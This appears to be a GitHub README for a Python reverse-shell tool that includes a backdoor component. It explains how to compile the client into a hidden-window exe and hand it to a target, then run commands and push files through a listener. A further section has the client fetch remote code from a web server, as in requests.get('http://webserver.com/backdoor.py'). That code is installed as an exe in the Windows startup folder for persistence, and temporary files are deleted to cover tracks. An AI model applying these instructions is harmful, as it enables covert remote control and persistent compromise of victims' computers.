 ![](http://myspecialsite.host20.uk/Icon%20image.png)
***
# Overview
This is a hacking tool to get a reverse shell.

This is tool is for educational purpose only!

The responsibility on every use of this tool is on the user only!

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 
***
## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules
***
## How to use
Make sure that you have port forwarding on port 42424 (you can change it if you want) to your computer.
Also make sure that you enable the port on your local firewall (inbound and outbound)
***
## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
***
## Convert client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.
 ***
## Using the tool
Start **server.py** using the following command:
`python3 server.py`
and wait for connection.

To see of all your connections type `snake> list` in the interactive prompt.

To send commands to one of your connections type `select` and the ID number of the connection.

E.X.:

`snake> select 0`

When you are in the reverse shell of one of your connection, you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
***
## Sending files
To send files to a client type in the interative prompt the following command
`send`

Then you'll get a list of all connection, select a connection by its number on the left side of connections table.
after that you can choose between entering the path manually or by a file dialog, notice that the file dialog will create another window (Thats how tkinter file dialog works) don't close it or else you'll get some errors!
***
# Backdoor
If you want to plant also a backdoor give the user an exe version of the **client.py** from the folder **"Multi client and backdoor"**.

Upload the file **backdoor.py** to a server that you do a GET request to and change the address in **client.py** from 
`request = requests.get("http://webserver.com/backdoor.py")` to
`request = requests.get("%YOUR WEB SERVER ADDRESS%/backdoor.py")`

Alse make sure that you change `debug = True` to `debug = False` when you give to the file to the client, 
or else, the backdoor process won't be created, and if the request won't work, messages will be displayed (on the console) 

Make sure that the target computer have python 3 installed and pip or else the backdoor won't be installed.
## how the backdoor works
When the user open the program (exe version of **client.py**) the program will have 3 processes:
* The main process - The GUI
* The commands process - connects to the server and executes commands
* The backdoor process - get the code from the webserver and creates an exe version of it and saves it the startup folder (only from Windows machines for now)
What the backdoor process is exactly doing is, it saves the code from the webserver and saves on a file names **temp.py** (the file will be automatically removed), then a the process executes a pyinstaller command which creates an exe version of the backdoor in the startup folder which will make start automatically every time the machine starts and removes all unnecessary folders and files to cover tracks.

To change the name of the backdoor file find this line:
`name = "backdoor"  # Here you can change the name of the backdoor app` 
and change the value to the name you want
***
## Collaboration
If you want to collaborate with me about this project or about any other project, contact me on **ofer026@gmail.com**
